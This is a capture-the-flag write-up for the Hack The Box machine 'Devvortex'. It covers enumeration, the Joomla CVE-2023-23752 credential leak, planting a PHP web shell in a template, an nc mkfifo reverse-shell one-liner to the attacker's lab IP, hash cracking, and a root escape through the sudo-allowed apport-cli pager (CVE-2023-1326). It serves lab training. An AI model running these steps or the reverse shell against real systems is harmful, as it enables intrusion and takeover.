










# HTB:Devvortex


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Devvortex) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | October 22nd 2026 |


## Enumeration

Before we do anything lets create three files:

1. credentials.txt where we will store valid username/passwd combinations

2. users.txt where we will store all usernames we come across

3. pass.txt where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.87.160 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running `nginx/1.18.0`. Additionally we see that the http-title is `devvortex.htb` so let's add that to our /etc/hosts file and visit the page.

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)  
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)  
|\_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|\_http-title: Did not follow redirect to http://devvortex.htb/  
|\_http-server-header: nginx/1.18.0 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

### Web Recon

Lets use the Burp Suite Browser to visit the web page:



The site appeares to be for a web development company and contains a few uninteresting tabs and then a contact form.



The contact form however does not actually send anything upon hitting the `SEND` button but simply redirects you back to the page.

We need to do some more enumeration. Let's see if we can find any subdomains by using the `FFUF` tool.

#### FFUF

Using `FFUF` and an appropriate wordlist, in our case the `subdomains-top1million-20000.txt` from SecLists, we can enumerate the domain looking for any valid subdomains. We do so using the command:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" -fs 154
```

The `-fs 154` filters out all results that have a size which eliminates a lot of false positives.

FFUF finds a single valid subdomain from the wordlist:

```
dev                     \[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 168ms\]  
:: Progress: \[19966/19966\] :: Job \[1/1\] :: 471 req/sec :: Duration: \[0:00:42\] :: Errors: 0 ::
```

Let's add `dev.devvortex.htb` to our /etc/hosts file and see what it contains:



This looks to be a potential redesign of the previous web page. The site also contains a `robots.txt` file :

```
\# If the Joomla site is installed within a folder  
\# eg www.example.com/joomla/ then the robots.txt file  
\# MUST be moved to the site root  
\# eg www.example.com/robots.txt  
\# AND the joomla folder name MUST be prefixed to all of the  
\# paths.  
\# eg the Disallow rule for the /administrator/ folder MUST  
\# be changed to read  
\# Disallow: /joomla/administrator/  
\#  
\# For more information about the robots.txt standard, see:  
\# https://www.robotstxt.org/orig.html  
  
User-agent: \*  
Disallow: /administrator/  
Disallow: /api/  
Disallow: /bin/  
Disallow: /cache/  
Disallow: /cli/  
Disallow: /components/  
Disallow: /includes/  
Disallow: /installation/  
Disallow: /language/  
Disallow: /layouts/  
Disallow: /libraries/  
Disallow: /logs/  
Disallow: /modules/  
Disallow: /plugins/  
Disallow: /tmp/
```

The `/administrator/` page immediately stands out so let's explore that:



The URL contains a `Joomla Administrator Login` page, Joomla is a Content Management System or CMS.

After doing some research I found this blog post by [HackerTarget](https://hackertarget.com/joomla-security-testing-guide/). In it they reference the `/administrator/manifests/files/joomla.xml` path and how it can reveal the version number.

Visiting the page we see that we are dealing with `Joomla Version 4.2.6`. We can now begin looking for vulnerabilities that affect this specific version.

## Exploitation

After searching online we find that this version of Joomla contains an `Information Disclosure` vulnerability as described in [cve-2023-23752](https://nvd.nist.gov/vuln/detail/cve-2023-23752).

POC exploits online search through `/api/index.php/v1/config/application?public=true` for credentials and print them. However we find that after visiting the URL a pair of credentials in there on the first page:

```
14	  
type	"application"  
id	"224"  
attributes	  
user	"lewis"  
id	224  
15	  
type	"application"  
id	"224"  
attributes	  
password	"\<REDACTED\>"  
id	224
```

Once logged in we are greeted with the Joomla dashboard:



Clicking on the `Users` tab we can see that there is another user named `Logan`, we should note this in our usernames.txt file.

## Foothold

[HackTricks](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html) has a great article on gaining RCE from the admin dashboard.

In order to gain RCE we will need to alter a template to include some malicious PHP code. Under the `System` tab on the left side menu we find the `Administrator Templates` module:



Here we find the `Atum Details and Files` template after double clicking on it we can find the `error.php` file and replace its source code with that of `joswr1ght`'s (easy-simple-webshell)\[[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)\] :



Once this is done we need to `Save & Close` and the `Close` again.

Now we can visit the URL of the error.php file and find a fully functional web shell:



Now lets gain a reverse shell by setting up a nc listener and then execute the following in our web shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2\>&1|nc 10.10.15.249 1234 \>/tmp/f
```

We now have a reverse shell on the target machine as `www-data`:



Before we start enumerating the target system lets gain a fully interactive TTY by running the command:

```
SHELL=/bin/bash script -q /dev/null
```

We can find the user flag in `/home/logan` but as the user `www-data` we do not have access to it meaning we have to do some lateral movement.

## Lateral Movement

A good first step when gaining a foothold on a machine is to check for listening ports (ports in use), we can do so using the command `netstat -tulnp`:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name      
tcp        0      0 127.0.0.1:33060         0.0.0.0:\*               LISTEN      -                     
tcp        0      0 127.0.0.1:3306          0.0.0.0:\*               LISTEN      -                     
tcp        0      0 0.0.0.0:80              0.0.0.0:\*               LISTEN      862/nginx: worker p   
tcp        0      0 127.0.0.53:53           0.0.0.0:\*               LISTEN      -                     
tcp        0      0 0.0.0.0:22              0.0.0.0:\*               LISTEN      -                     
tcp6       0      0 :::80                   :::\*                    LISTEN      862/nginx: worker p   
tcp6       0      0 :::22                   :::\*                    LISTEN      -                     
udp        0      0 127.0.0.53:53           0.0.0.0:\*                           -                     
udp        0      0 0.0.0.0:68              0.0.0.0:\*                           -
```

Interestingly we see that port 3306 is listening, this port is the default port for `MySQL` so let's try and access the database.

Since we only have a single set of credentials it is worth it to check and see of the credentials were reused:

```
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ mysql -u lewis -p  
\<htb/administrator/templates/atum$ mysql -u lewis -p                   
Enter password: \<REDACTED\>  
  
Welcome to the MySQL monitor.  Commands end with ; or \\g.  
Your MySQL connection id is 50  
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)  
  
Copyright (c) 2000, 2023, Oracle and/or its affiliates.  
  
Oracle is a registered trademark of Oracle Corporation and/or its  
affiliates. Other names may be trademarks of their respective  
owners.  
  
Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.  
  
mysql\> 
```

Success! Now we can begin enumerating the Database by first listing all tha databases:

```
mysql\> show databases;  
show databases;  
+--------------------+  
| Database           |  
+--------------------+  
| information\_schema |  
| joomla             |  
| performance\_schema |  
+--------------------+  
3 rows in set (0.01 sec)
```

Of the three present databases `joomla` looks the most promising so lets select that database by typing `use joomla;`.

Now let's list the tables in this database:

```
mysql\> show tables;  
show tables;  
+-------------------------------+  
| Tables\_in\_joomla              |  
+-------------------------------+  
      
        ...  
  
| sd4fg\_usergroups              |  
| sd4fg\_users                   |  
| sd4fg\_viewlevels              |  
  
        ...  
+-------------------------------+  
71 rows in set (0.00 sec)  

```

The command returns 71 tables but one jumps out: `sd4fg\_users`. We can dump the table by selecting all of its contents:

```
mysql\> select \* from sd4fg\_users;  
select \* from sd4fg\_users;  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| 649 | lewis      | lewis    | lewis@devvortex.htb | \<REDACTED\> |     0 |         1 | 2023-09-25 16:44:24 | 2026-10-27 02:05:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |  
| 650 | logan paul | logan    | logan@devvortex.htb | \<REDACTED\> |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | \{"admin\_style":"","admin\_language":"","language":"","editor":"","timezone":"","a11y\_mono":"0","a11y\_contrast":"0","a11y\_highlight":"0","a11y\_font":"0"\} | NULL          |          0 |        |      |            0 |              |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```

The database contains information about two users: `lewis` and `logan`.

Most notably is it contains a hash of the users password! So we now need to crack the hash for the logan user.

After copying and pasting the hash into a file called `logan.hash` we can run `hashid -h` to id the hash as well as give us the `hashcat` mode id:

```
hashid -m logan.hash   
--File 'logan.hash'--  
Analyzing '\<REDACTED\>'  
\[+\] Blowfish(OpenBSD) \[Hashcat Mode: 3200\]  
\[+\] Woltlab Burning Board 4.x   
\[+\] bcrypt \[Hashcat Mode: 3200\]  
--End of file 'logan.hash'--           
```

So we are dealing with a `Blowfish(OpenBSD)` hash which has a hashcat id of 3200.

To crack the hash we will run hashcat using the mode id of 3200 and the rockyou.txt wordlist:

```
...  
  
Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 3200 (bcrypt $2\*$, Blowfish (Unix))  
Hash.Target......: \<REDACTED\>  
Time.Started.....: Mon Oct 26 19:40:25 2026 (1 min, 47 secs)  
Time.Estimated...: Mon Oct 26 19:42:12 2026 (0 secs)  
Kernel.Feature...: Pure Kernel (password length 0-72 bytes)  
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)  
Guess.Queue......: 1/1 (100.00%)  
  
...
```

After a few minutes we see that the hash has been cracked giving us the plain text password for the logan user. Looking back at out nmap scan from before we see that there is also an ssh server running on the machine, let's see if our newfound credentials allow us ssh access:

```
ssh logan@devvortex.htb  
\*\* WARNING: connection is not using a post-quantum key exchange algorithm.  
\*\* This session may be vulnerable to "store now, decrypt later" attacks.  
\*\* The server may need to be upgraded. See https://openssh.com/pq.html  
logan@devvortex.htb's password:   
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86\_64)  
  
  
  
...  
  
Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23  
logan@devvortex:~$ whoami  
logan  
logan@devvortex:~$ hostname  
devvortex  
logan@devvortex:~$ 
```

Success! The user flag can be found in `/home/logan`.

## Privilege Escalation

Now that we have user access to the machine it is time to try and escalate our privileges to root.

Running the command `sudo -l` gives us a list of all the commands the current user can run using sudo:

```
sudo -l  
\[sudo\] password for logan:   
Matching Defaults entries for logan on devvortex:  
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin  
  
User logan may run the following commands on devvortex:  
    (ALL : ALL) /usr/bin/apport-cli
```

As `logan` we can run `/usr/bin/apport-cli` as sudo.

```
logan@devvortex:~$ sudo /usr/bin/apport-cli -v  
2.20.11
```

Additionally we can see that we are running version `2.20.11`. Searching online we fund that this binary is vulnerable to a `Privilege Escalation` attack as described in `https://nvd.nist.gov/vuln/detail/cve-2023-1326` which effects versions 2.26 and earlier.

`Vry4n\_` has a great [blog](https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/) post on how to exploit this vulnerability.

The basics of the vulnerability are that when viewing a report using `apport-cli` the `less` utility is configured as the pager and within that a terminal can be set. Now since we are able to run the binary using `sudo` when we set this terminal we are opening the terminal as root:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug  
  
\*\*\* What kind of problem do you want to report?  
  
  
Choices:  
 1: Display (X.org)  
 2: External or internal storage devices (e. g. USB sticks)  
 3: Security related problems  
 4: Sound/audio related problems  
 5: dist-upgrade  
 6: installation  
 7: installer  
 8: release-upgrade  
 9: ubuntu-release-upgrader  
 10: Other problem  
 C: Cancel  
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1  
  
  
\*\*\* Collecting problem information  
  
The collected information can be sent to the developers to improve the  
application. This might take a few minutes.  
  
\*\*\* What display problem do you observe?  
  
  
Choices:  
 1: I don't know  
 2: Freezes or hangs during boot or usage  
 3: Crashes or restarts back to login screen  
 4: Resolution is incorrect  
 5: Shows screen corruption  
 6: Performance is worse than expected  
 7: Fonts are the wrong size  
 8: Other display-related problem  
 C: Cancel  
Please choose (1/2/3/4/5/6/7/8/C): 2  
  
\*\*\*   
  
To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze  
  
Press any key to continue...   
  
..dpkg-query: no packages found matching xorg  
.................  
  
\*\*\* Send problem report to the developers?  
  
After the problem report has been sent, please fill out the form in the  
automatically opened web browser.  
  
What would you like to do? Your options are:  
 S: Send report (1.4 KB)  
 V: View report  
 K: Keep report file for sending later or copying to somewhere else  
 I: Cancel and ignore future crashes of this program version  
 C: Cancel  
Please choose (S/V/K/I/C): V  
root@devvortex:/home/logan\# whoami  
root  
root@devvortex:/home/logan\# hostname  
devvortex
```

The root.txt flag can be found in the `/root` directory this solving the challenge:



